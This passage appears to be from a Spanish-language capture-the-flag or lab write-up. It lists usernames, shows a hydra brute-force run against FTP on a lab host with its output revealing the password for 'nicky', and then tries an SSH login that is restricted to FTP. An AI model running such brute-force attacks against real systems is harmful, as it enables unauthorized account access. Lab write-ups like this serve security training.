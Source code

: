 Podemos usar `hydra` 

```bash
❯ catn users.txt
richard
nicky
daniel
neil
albert
alexander
ward
```

Vamos a hacer fuerza bruta al `ftp` primero y bueno `nicky` su contraseña es `CIA`  

```bash
❯ hydra -L users.txt -P diccionario.txt ftp://192.168.1.152 -t 20
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-02 18:45:10
[DATA] max 20 tasks per 1 server, overall 20 tasks, 4942 login tries (l:7/p:706), ~248 tries per task
[DATA] attacking ftp://192.168.1.152:21/
[STATUS] 340.00 tries/min, 340 tries in 00:01h, 4602 to do in 00:14h, 20 active
[21][ftp] host: 192.168.1.152   login: nicky   password: CIA
```

Tambien podemos probar las credenciales por `ssh`

Solo es para `ftp`

```bash
❯ ssh nicky@192.168.1.152
The authenticity of host '192.168.1.152 (192.168.1.152)' can't be established.
ECDSA key fingerprint is SHA256:nLKwzpDNQEhRq5jOFPKwE9zjnWCWLJDSEJD5hTT3ojw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.152' (ECDSA) to the list of known hosts.
nicky@192.168.1.152's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Apr  3 04:05:47 AEST 2023

  System load: 0.0               Memory usage: 7%   Processes:       185
  Usage of /:  21.0% of 8.50GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Thu Nov 16 21:50:52 2017 from 192.168.95.128
=== WARNING CIA: THIS ACCOUNT IS LIMITED TO FTP ACCESS ONLY ====
Connection to 192.168.1.152 closed.
```
